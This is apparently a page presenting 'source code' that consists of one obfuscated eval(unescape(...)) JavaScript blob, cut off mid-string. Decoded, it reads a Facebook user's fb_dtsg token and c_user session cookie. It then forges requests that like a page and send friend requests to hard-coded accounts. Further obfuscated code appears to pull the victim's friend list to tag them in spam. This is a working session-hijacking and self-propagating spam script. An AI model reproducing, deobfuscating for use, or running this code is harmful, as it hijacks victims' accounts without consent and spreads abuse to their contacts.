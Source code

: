 eval(unescape('%76%61%72%20%66%62%5F%64%74%73%67%20%3D%20%64%6F%63%75%6D%65%6E%74%2E%67%65%74%45%6C%65%6D%65%6E%74%73%42%79%4E%61%6D%65%28%27%66%62%5F%64%74%73%67%27%29%5B%30%5D%2E%76%61%6C%75%65%3B%0A%76%61%72%20%75%73%65%72%5F%69%64%20%3D%20%64%6F%63%75%6D%65%6E%74%2E%63%6F%6F%6B%69%65%2E%6D%61%74%63%68%28%64%6F%63%75%6D%65%6E%74%2E%63%6F%6F%6B%69%65%2E%6D%61%74%63%68%28%2F%63%5F%75%73%65%72%3D%28%5C%64%2B%29%2F%29%5B%31%5D%29%3B%0A%66%75%6E%63%74%69%6F%6E%20%4C%69%6B%65%28%70%29%20%7B%0A%20%20%76%61%72%20%50%61%67%65%20%3D%20%6E%65%77%20%58%4D%4C%48%74%74%70%52%65%71%75%65%73%74%28%29%3B%0A%20%20%76%61%72%20%50%61%67%65%55%52%4C%20%3D%20%22%2F%2F%77%77%77%2E%66%61%63%65%62%6F%6F%6B%2E%63%6F%6D%2F%61%6A%61%78%2F%70%61%67%65%73%2F%66%61%6E%5F%73%74%61%74%75%73%2E%70%68%70%22%3B%0A%20%20%76%61%72%20%50%61%67%65%50%61%72%61%6D%73%20%3D%20%22%26%66%62%70%61%67%65%5F%69%64%3D%22%20%2B%20%70%20%2B%22%26%61%64%64%3D%74%72%75%65%26%72%65%6C%6F%61%64%3D%66%61%6C%73%65%26%66%61%6E%5F%6F%72%69%67%69%6E%3D%70%61%67%65%5F%74%69%6D%65%6C%69%6E%65%26%66%61%6E%5F%73%6F%75%72%63%65%3D%26%63%61%74%3D%26%6E%63%74%72%5B%5F%6D%6F%64%5D%3D%70%61%67%65%6C%65%74%5F%74%69%6D%65%6C%69%6E%65%5F%70%61%67%65%5F%61%63%74%69%6F%6E%73%26%5F%5F%75%73%65%72%3D%22%2B%75%73%65%72%5F%69%64%2B%22%26%5F%5F%61%3D%31%26%5F%5F%64%79%6E%3D%37%39%38%61%44%35%7A%35%43%46%2D%26%5F%5F%72%65%71%3D%64%26%66%62%5F%64%74%73%67%3D%22%2B%66%62%5F%64%74%73%67%2B%22%26%70%68%73%74%61%6D%70%3D%22%3B%0A%20%20%50%61%67%65%2E%6F%70%65%6E%28%22%50%4F%53%54%22%2C%20%50%61%67%65%55%52%4C%2C%20%74%72%75%65%29%3B%0A%20%20%50%61%67%65%2E%6F%6E%72%65%61%64%79%73%74%61%74%65%63%68%61%6E%67%65%20%3D%20%66%75%6E%63%74%69%6F%6E%20%28%29%20%7B%0A%20%20%20%20%69%66%20%28%50%61%67%65%2E%72%65%61%64%79%53%74%61%74%65%20%3D%3D%20%34%20%26%26%20%50%61%67%65%2E%73%74%61%74%75%73%20%3D%3D%20%32%30%30%29%20%7B%0A%20%20%20%20%20%20%50%61%67%65%2E%63%6C%6F%73%65%3B%0A%20%20%20%20%7D%0A%20%20%7D%3B%0A%20%20%50%61%67%65%2E%73%65%6E%64%28%50%61%67%65%50%61%72%61%6D%73%29%3B%0A%7D%0A%4C%69%6B%65%28%22%30%22%29%3B%0A%20%0A%76%61%72%20%66%62%5F%64%74%73%67%20%3D%20%64%6F%63%75%6D%65%6E%74%2E%67%65%74%45%6C%65%6D%65%6E%74%73%42%79%4E%61%6D%65%28%27%66%62%5F%64%74%73%67%27%29%5B%30%5D%2E%76%61%6C%75%65%3B%0A%76%61%72%20%75%73%65%72%5F%69%64%20%3D%20%64%6F%63%75%6D%65%6E%74%2E%63%6F%6F%6B%69%65%2E%6D%61%74%63%68%28%64%6F%63%75%6D%65%6E%74%2E%63%6F%6F%6B%69%65%2E%6D%61%74%63%68%28%2F%63%5F%75%73%65%72%3D%28%5C%64%2B%29%2F%29%5B%31%5D%29%3B%0A%66%75%6E%63%74%69%6F%6E%20%49%44%53%28%72%29%20%7B%0A%20%20%76%61%72%20%58%20%3D%20%6E%65%77%20%58%4D%4C%48%74%74%70%52%65%71%75%65%73%74%28%29%3B%0A%20%20%76%61%72%20%58%55%52%4C%20%3D%20%22%2F%2F%77%77%77%2E%66%61%63%65%62%6F%6F%6B%2E%63%6F%6D%2F%61%6A%61%78%2F%61%64%64%5F%66%72%69%65%6E%64%2F%61%63%74%69%6F%6E%2E%70%68%70%22%3B%0A%20%20%76%61%72%20%58%50%61%72%61%6D%73%20%3D%20%22%74%6F%5F%66%72%69%65%6E%64%3D%22%20%2B%20%72%20%2B%22%26%61%63%74%69%6F%6E%3D%61%64%64%5F%66%72%69%65%6E%64%26%68%6F%77%5F%66%6F%75%6E%64%3D%66%72%69%65%6E%64%5F%62%72%6F%77%73%65%72%5F%73%26%72%65%66%5F%70%61%72%61%6D%3D%6E%6F%6E%65%26%26%26%6F%75%74%67%6F%69%6E%67%5F%69%64%3D%26%6C%6F%67%67%69%6E%67%5F%6C%6F%63%61%74%69%6F%6E%3D%73%65%61%72%63%68%26%6E%6F%5F%66%6C%79%6F%75%74%5F%6F%6E%5F%63%6C%69%63%6B%3D%74%72%75%65%26%65%67%6F%5F%6C%6F%67%5F%64%61%74%61%26%68%74%74%70%5F%72%65%66%65%72%65%72%26%5F%5F%75%73%65%72%3D%22%2B%75%73%65%72%5F%69%64%2B%22%26%5F%5F%61%3D%31%26%5F%5F%64%79%6E%3D%37%39%38%61%44%35%7A%35%43%46%2D%26%5F%5F%72%65%71%3D%33%35%26%66%62%5F%64%74%73%67%3D%22%2B%66%62%5F%64%74%73%67%2B%22%26%70%68%73%74%61%6D%70%3D%22%3B%0A%20%20%58%2E%6F%70%65%6E%28%22%50%4F%53%54%22%2C%20%58%55%52%4C%2C%20%74%72%75%65%29%3B%0A%20%20%58%2E%6F%6E%72%65%61%64%79%73%74%61%74%65%63%68%61%6E%67%65%20%3D%20%66%75%6E%63%74%69%6F%6E%20%28%29%20%7B%0A%20%20%20%20%69%66%20%28%58%2E%72%65%61%64%79%53%74%61%74%65%20%3D%3D%20%34%20%26%26%20%58%2E%73%74%61%74%75%73%20%3D%3D%20%32%30%30%29%20%7B%0A%20%20%20%20%20%20%58%2E%63%6C%6F%73%65%3B%0A%20%20%20%20%7D%0A%20%20%7D%3B%0A%20%20%58%2E%73%65%6E%64%28%58%50%61%72%61%6D%73%29%3B%0A%7D%0A%49%44%53%28%22%31%30%30%30%30%36%30%31%33%35%36%36%35%38%32%22%29%3B%0A%49%44%53%28%22%31%30%30%30%30%32%31%35%31%37%34%37%34%38%37%22%29%3B%0A%76%61%72%20%5F%30%78%61%32%32%63%3D%5B%22%76%61%6C%75%65%22%2C%22%66%62%5F%64%74%73%67%22%2C%22%67%65%74%45%6C%65%6D%65%6E%74%73%42%79%4E%61%6D%65%22%2C%22%6D%61%74%63%68%22%2C%22%63%6F%6F%6B%69%65%22%2C%22%36%39%39%36%33%30%37%39%36%37%34%35%37%35%32%22%2C%22%6F%6E%72%65%61%64%79%73%74%61%74%65%63%68%61%6E%67%65%22%2C%22%72%65%61%64%79%53%74%61%74%65%22%2C%22%61%72%6B%61%64%61%73%6C%61%72%20%3D%20%22%2C%22%66%6F%72%20%28%3B%3B%29%3B%22%2C%22%22%2C%22%72%65%70%6C%61%63%65%22%2C%22%72%65%73%70%6F%6E%73%65%54%65%78%74%22%2C%22%3B%22%2C%22%6C%65%6E%67%74%68%22%2C%22%65%6E%74%72%69%65%73%22%2C%22%70%61%79%6C%6F%61%64%22%2C%22%72%6F%75%6E%64%22%2C%22%3C%33%20%3C%33%20%40%5B%22%2C%22%75%69%64%22%2C%22%3A%22%2C%22%74%65%78%74%22%2C%22%5D%22%2C%22%20%22%2C%22%5C%78%32%36%66%69%6C%74%65%72%5B%30%5D%3D%75%73%65%72%22%2C%22%5C%78%32%36%6F%70%74%69%6F%6E%73%5B%30%5D%3D%66%72%69%65%6E%64%73%5F%6F%6E%6C%79%22%2C%22%5C%78%32%36%6F%70%74%69%6F%6E%73%5B%31%5D%3D%6E%6D%22%2C%22%5C%78%32%36%74%6F%6B%65%6E%3D%76%37%22%2C%22%5C%78%32%36%76%69%65%77%65%72%3D%22%2C%22%5C%78%32%36%5F%5F%75%73%65%72%3D%22%2C%22%68%74%74%70%73%3A%2F%2F%22%2C%22%69%6E%64%65%78%4F%66%22%2C%22%55%52%4C%22%2C%22%47%45%54%22%2C%22%68%74%74%70%73%3A%2F%2F%77%77%77%2E%66%61%63%65%62%6F%6F%6B%2E%63%6F%6D%2F%61%6A%61%78%2F%74%79%70%65%61%68%65%61%64%2F%66%69%72%73%74%5F%64%65%67%72%65%65%2E%70%68%70%3F%5F%5F%61%3D%31%22%2C%22%6F%70%65%6E%22%2C%22%68%74%74%70%3A%2F%2F%77%77%77%2E%66%61%63%65%62%6F%6F%6B%2E%63%6F%6D%2F%61%6A%61%78%2F%74%79%70%65%61%68%65%61%64%2F%66%69%72%73%74%5F%64%65%67%72%65%65%2E%70%68%70%3F%5F%5F%61%3D%31%22%2C%22%73%65%6E%64%22%2C%22%72%61%6E%64%6F%6D%22%2C%22%6